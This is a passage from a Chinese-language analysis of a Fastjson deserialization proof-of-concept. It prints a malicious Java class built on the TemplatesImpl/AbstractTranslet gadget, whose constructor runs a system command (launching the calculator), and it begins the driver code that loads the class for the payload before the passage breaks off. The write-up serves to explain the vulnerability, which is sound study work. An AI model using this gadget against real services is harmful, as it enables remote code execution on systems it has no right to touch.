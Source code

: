 ### 0x02 原理分析

#### 分析POC

先看一下用于反序列化的恶意类evilClass1.java:

    package ka1n4t.poc;

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

    import java.io.IOException;

    public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {


        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
        }


        public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

        }

        public evilClass1() throws IOException {
            Runtime.getRuntime().exec("calc");
        }

        public static void main(String[] args) throws IOException {
            evilClass1 helloworld = new evilClass1();
        }
    }

其中的构造方法是用exec弹个计算器。看下poc，vulApp1.java：

    package ka1n4t.poc;

    import org.apache.commons.io.IOUtils;
    import org.apache.commons.codec.binary.Base64;
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.Feature;
    import com.alibaba.fastjson.parser.ParserConfig;
    import java.io.ByteArrayOutputStream;
    import java.io.File;
    import java.io.FileInputStream;
    import java.io.IOException;

    public class vulApp1 {

        public static String readClass(String cls){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            try {
                IOUtils.copy(new FileInputStream(new File(cls)), bos);
            } catch (IOException e) {
                e.printStackTrace();
            }
